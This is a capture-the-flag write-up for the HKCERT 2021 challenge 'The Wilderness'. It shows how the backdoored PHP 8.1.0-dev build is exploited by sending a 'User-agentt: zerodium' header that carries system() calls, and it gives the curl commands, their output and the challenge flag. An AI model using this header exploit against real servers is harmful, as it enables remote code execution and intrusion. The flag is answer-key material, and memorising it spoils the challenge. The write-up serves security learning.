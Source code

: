 # The Wilderness 荊棘海 (100 point, 39 solves, ★☆☆☆☆) [First blood 🩸]

Solved by: Kaiziron

### Description :
```
Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?

http://chalp.hkcert21.pwnable.hk:28364/

Attachments
sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip
```
---
### Solution :

This challenge is easy to solve if you are familiar with the vulnerability, 

I did a hackthebox machine `Knife` with the same vulnerability not long ago, so I identified the vulnerability quickily and solved the challenge quickily in around 2 min after I discovered this challenge

After I see the description is about the PHP version, I immediately check for the PHP version the challenge is using

```
curl -i http://chalp.hkcert21.pwnable.hk:28364/
HTTP/1.1 200 OK
Host: chalp.hkcert21.pwnable.hk:28364
Date: Tue, 16 Nov 2021 06:07:19 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8

<h1>It Works!</h1>
```
It is using PHP 8.1.0-dev, which is known to be backdoored

![](https://i.imgur.com/XOrWHpj.png)

This is the commit in github that added the backdoor

To exploit this, we can specify a HTTP request header "User-agentt" and set the value to be `zerodium<php code>` 

```
curl -H 'User-agentt: zerodiumsystem("ls -la");'  http://chalp.hkcert21.pwnable.hk:28364/
total 12
drwxr-xr-x 1 root root 4096 Nov  7 04:22 .
drwxr-xr-x 1 root root 4096 Nov  7 04:22 ..
-rw-r--r-- 1 root root   90 Nov  7 03:55 index.php
```

We can execute command using the system() function in php

So we can just read the index.php and get the flag

```
curl -H 'User-agentt: zerodiumsystem("cat index.php");'  http://chalp.hkcert21.pwnable.hk:28364/
<h1>It Works!</h1>
<?php // hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n} ?>
<h1>It Works!</h1>
```

### Flag :
`hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}`